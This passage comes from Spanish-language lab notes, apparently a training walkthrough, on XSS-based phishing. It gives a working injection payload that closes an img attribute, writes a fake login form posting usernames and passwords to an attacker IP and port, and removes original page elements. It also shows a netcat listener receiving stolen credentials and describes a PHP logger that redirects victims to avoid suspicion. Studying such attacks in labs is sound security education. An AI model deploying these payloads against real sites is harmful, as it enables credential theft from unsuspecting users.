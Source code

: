 Como vemos tanto en el código fuente como en el texto flotante, el `url`formulario tiene el id `urlform`.Tambien podemos quitar con Xpath la etiqueta h1:

```javascript
document.getElementById('urlform').remove();
document.getElementsByTagName('h1')[0].parentNode.removeChild(document.getElementsByTagName('h1')[0]);
```

------------------------------
Finalmente como vemos en el código fuente de la página , el código html lo insertaremos en el atributo scr en la etiqueta ´img´ por lo que cerraremos el atributo y la etiqueta e insertamos los scripts y por ultimo añadimos un comentario para que no aparezcan las etiquetas de cierre que inserta automáticamente:

```javascript
'</img>
<script>
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.88:8080><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>')
</script>
<script>
document.getElementsByTagName('h1')[0].parentNode.removeChild(document.getElementsByTagName('h1')[0]);
</script>
<script>
document.getElementById('urlform').remove();
</script>
<!-- 
```

#### Robo de credenciales

Nuestro formulario HTML está diseñado para enviar la solicitud de inicio de sesión a nuestra IP, que debería estar escuchando una conexión. Si no estamos escuchando una conexión, obtendremos un error `site can’t be reached`. Poner el mismo puerto que pusimos en el formulario, por defecto es 80 si no ponemos.

*Netcat*
```python
[!bash!]$ sudo nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

`netcat`receptor, no manejará la solicitud HTTP correctamente y la víctima obtendría un error `Unable to connect`, lo que podría generar algunas sospechas.

*Servidor y Script PHP*

Podemos usar un script PHP básico que registre las credenciales de la solicitud HTTP y luego devuelva a la víctima a la página original sin ninguna inyección.
